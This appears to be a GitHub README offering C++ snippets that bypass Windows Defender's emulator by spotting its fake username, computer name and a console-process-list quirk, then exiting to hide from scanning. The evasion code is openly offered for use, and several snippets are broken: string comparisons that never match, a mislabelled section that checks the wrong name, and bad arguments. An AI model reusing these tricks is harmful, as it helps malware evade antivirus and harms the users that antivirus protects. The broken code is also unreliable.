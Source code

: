 ## Windows Defender Emulator Bypasses

- Some Defender Emulator bypasses
- All code examples are in c++, I don't care for any other language.

### Credits / Resources

- https://github.com/hfiref0x/WDExtract
- https://www.youtube.com/watch?v=wDNQ-8aWLO0


### GetUserName

The emulated version of GetUserName returns a static string of "JohnDoe".

You can bypass it with:
```c++
CHAR user[MAX_USERNAME_SIZE];
GetUserNameA((LPSTR)user, MAX_USERNAME_SIZE);

if(user == "JohnDoe"){
    ExitProcess(-1);// Emulated, unless actual username is JohnDoe
}
```
Since the username could actually be JohnDoe, it might be worth adding an extra check.


### GetComputerName

The emulated version of GetUserName returns a static string of "HAL9TH".

```c++
CHAR user[MAX_USERNAME_SIZE];
GetComputerName((LPSTR)user, MAX_USERNAME_SIZE);

if(user == "JohnDoe"){
    ExitProcess(-1);
}
```

### GetConsoleProcessList

The emulated version of GetConsoleProcessList simply returns 0, 
https://docs.microsoft.com/en-us/windows/console/getconsoleprocesslist states that "If the return value is zero, the function has failed, because every console has at least one process associated with it.".

```c++
if(GetConsoleProcessList(5, 5) == 0){
    // could be emulated.
}
```